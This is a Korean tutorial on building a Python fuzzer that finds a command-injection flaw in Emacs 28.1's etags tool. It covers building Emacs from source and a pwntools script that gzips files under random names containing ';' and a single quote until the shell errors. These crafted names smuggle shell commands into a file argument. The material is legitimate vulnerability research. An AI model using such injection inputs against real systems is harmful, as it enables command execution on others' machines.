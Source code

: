 시잇팔 command injection fuzzer 어케 만듬

# Install
우선 emacs 설치를 해야한다.
```
wget https://github.com/emacs-mirror/emacs/archive/refs/tags/emacs-28.1.tar.gz

tar -zxvf emacs-28.1.tar.gz

cd ./emacs-emacs-28.1

autoreconf -ivf


```

그리고 texinfo 를 설치해줘야한다.
```
sudo apt-get update

sudo apt-get install texinfo

makeinfo --version
```


그리고 환경변수와 configure로 prefix설정을 해준다.
```
export MAKEINFO=/usr/bin/makeinfo
./configure --prefix="/root/f/fuzzing_make_emacs/install" --without-x --with-gnutls=ifavailable

make
make install
```
여기서 --without-x 는 gui를 지원하지 않도록 하는것이고 --with-gnutls=ifavialable은 GnuTLS라이브러리가 존재한다면 사용하겠다는것이다.

### 사용법
![](https://i.imgur.com/vpH1AzA.png)

### Fuzzer 만들기
해당 target은 인자로 zip파일을 주면 해당 zip파일을 압축해제하는 과정에서 command injection이 발생한다.

```python
from pwn import *
import os
import random
import gzip
import string

context.log_level = 'debug'

# 랜덤 파일 이름 생성 (10자리) mutate만 쌈뽕하게 하면 될듯
valid_chars = [char for char in string.ascii_lowercase if char not in {'r', 'm'}] + [';', "'"]

while(True):
    try:
        random_chars = [random.choice(valid_chars) for _ in range(random.randint(1, 9))]
        random_filename = ''.join(random_chars)

        # random_filename = "';aaaaaa;'test"

        # 압축 할 파일
        c_file = "./test.c"
        # 압축 파일 경로
        compressed_file = random_filename + ".z"

        with open(c_file, 'rb') as f_in, gzip.open(compressed_file, 'wb') as f_out:
            f_out.writelines(f_in)

        # pwntools로 프로세스 실행
        target_binary = './install/bin/etags'

        # 실행 인자로 압축 파일 전달
        p = process([target_binary, compressed_file])

        e = p.recv(1)
        print("crash")
        print(compressed_file)
        break

        # p.interactive()
    except:
        os.remove(compressed_file)
        continue
```

![](https://i.imgur.com/oMBgpba.png)

sh 로 오류가 발생했다는 것은 filename을 문자열 자체로 보지 않았기 때문에 명령어 실행 오류가 발생했고 즉 command injection이 발생할 수 있다는 것을 나타낸다.

